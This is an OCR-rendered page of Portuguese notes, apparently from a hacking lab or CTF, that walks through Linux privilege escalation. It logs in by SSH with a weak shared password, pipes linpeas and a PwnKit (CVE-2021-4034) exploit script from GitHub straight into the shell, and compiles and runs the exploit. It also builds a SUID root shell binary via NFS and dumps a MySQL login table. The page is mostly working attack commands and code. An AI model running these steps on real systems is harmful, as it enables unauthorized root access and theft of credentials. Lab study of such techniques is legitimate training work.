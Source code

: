 - ESCALAÇÃO DE PRIVILÉGIO (Bônus)
	LOGA COM O USUÁRIO THIAGO E RODA O LINPEAS

        Baixar o Binário que foi compartilhado no grupo e colocar o código na máquina alvo usando o usuário thiago e senha 123456 para conectar na máq
uina por ssh

        ssh thiago@IP_DO_ALVO

        Acessar o diretório /tmp, pois usuário comum tem permissão de gravação no diretório

        cd /tmp
        
        curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
        
	https://github.com/berdav/CVE-2021-4034 - Executar o oneliner command

        eval "$(curl -s https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.sh)"

        Colar o código do exploit no arquivo exploit.c

        nano exploit.c 

        Compilar o binário para gerar um executável

        gcc -o exploit exploit.c

        Dar permissão de execução no binário

        chmod +x exploit

        Executar o exploit

        ./exploit

        Ver qual usuário eu me tornei após executar o binário

        whoami
        
        OUTRA FORMA É FAZENDO PELO NFS
        
        tenta fazer com bash e vai dar erro, então cria um arquivo C
        
        int main() {
	  setuid(0);
	  system("/bin/bash");
	  return 0;
	}

	gcc exp.c -o exp mys	
	chmod +s exp
	
	Vai no alvo e tenta executar o arquivo: ./exp - VAI DAR ERRO, então compila diretamente no alvo
	gcc exp.c -o exp2
	ls -l exp2
	

	VAI NO KALI muda dono e permissão
	chown root:root exp2
	chmod +s exp2
	
	VAI NO ALVO E TENTA EXECUTAR
	./exp2
	

- SERVIÇO RODANDO EM LOCALHOST MYSQL
        show databases;
        use login;
        show tables;
        select * from login;
